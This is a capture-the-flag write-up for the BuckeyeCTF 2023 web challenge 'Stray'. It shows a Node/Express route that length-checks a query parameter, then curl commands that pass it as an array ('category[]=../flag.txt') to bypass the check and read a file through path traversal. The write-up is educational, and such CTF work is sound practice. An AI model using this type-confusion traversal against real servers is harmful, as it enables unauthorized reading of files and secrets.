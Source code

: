 ```yaml
---
title: BuckeyeCTF 2023 - Stray
description: Writeup for grades grades grades web challenge
date: 2023-12-18
tldr: Stray cats!
draft: false
tags: ["ctf", "writeup", "web"]
---
```


## Stray/easy

Stuck on what to name your stray cat?

https://stray.chall.pwnoh.io

Looking at this it seems like the `category` is not really sanitized in any way so maybe directory traversal could work here, however we are limited to a single character by `category.length == 1`

```javascript
app.get("/cat", (req, res) => {
  let { category } = req.query;

  console.log(category);

  if (category.length == 1) {
    const filepath = path.resolve("./names/" + category);
    const lines = fs.readFileSync(filepath, "utf-8").split("\n");
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name });
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});
```

ideally we would just pass `../flag.txt` to the category queryparameter and get the flag but due to the length check `category.length == 1` we cannot really do just that as it results in an error.

```bash
curl https://stray.chall.pwnoh.io/cat?category=f
{"name":"Stevie"}
curl https://stray.chall.pwnoh.io/cat?category=../flag.txt
{"error":"Unable to generate cat name"}
```

now we notice that the query destructuring `let { category } = req.query;` assumes a single string is passed in `category` and than lenght of that is check assuming its a string, however if we could make an array of lenght one with the right string...

```bash
curl -s https://stray.chall.pwnoh.io/cat?category[]=../flag.txt | jq -r '.name'
bctf{j4v45cr1p7_15_4_6r347_l4n6u463}
```